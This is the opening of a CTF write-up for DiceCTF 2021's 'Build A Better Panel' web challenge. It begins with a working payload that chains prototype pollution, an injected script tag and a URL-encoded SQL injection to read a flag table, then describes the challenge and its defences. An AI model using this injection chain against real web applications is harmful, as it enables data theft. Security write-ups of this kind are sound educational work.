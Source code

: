 ```yaml
---
title: Build A Better Panel - Dice CTF 2021
date: 2021-02-09
author: Az3z3l
author_url: https://twitter.com/Az3z3l
categories:
 - Web Exploitation
tags:
 - Prototype Pollution
 - CSP
 - XSS
 - DiceCTF
---
```


**tl;dr**

+ Payload:  `{"widgetName":"constructor","widgetData":"{\"prototype\":{\"srcdoc\":\"<script src='/admin/debug/add_widget?panelid=star7rix&widgetname=test123&widgetdata=%27%29%2C%28%27star7rix%27%2C+%28select+flag+from+flag%29%2C+%27%7B%22type%22%3A%22test123%22%7D%27%29+--'></script>\"}}"}`



**Number of Solves**: 13
**Points**: 299

**Solved by**: [Az3z3l](https://twitter.com/Az3z3l) & [Captain-Kay](https://twitter.com/Captainkay11)

## Challenge Description

BAP wasn't secure enough. Now the admin is a bit smarter, see if you can still get the flag! If you experience any issues, send it here

NOTE: The admin will only visit sites that match the following regex ^https:\/\/build-a-better-panel\\.dicec\\.tf\/create\?\[0-9a-z\\-\=]+$

Site: [build-a-better-panel.dicec.tf](build-a-better-panel.dicec.tf)

Downloads: [build-a-better-panel.tar.gz](build-a-better-panel.tar.gz)

## Solution

<br />

### Basic Understanding

Before this challenge was released, another challenge called `Build A Panel` was released. That had an unintended solution, which led the authors to patch and release this challenge. The functionalities in this was simple. There was a widget adding option, a reddit post embedded on to the page and the admin had a functionality to add a widget to any user. 

The first thing we notice is that the admin's add widget functionality is vulnerable to SQLi, using which we need to get the flag. We can't exploit CSRF directly due to a regex in place which allows url to be of the format mentioned in the description and the sameSite being Strict in cookies. 
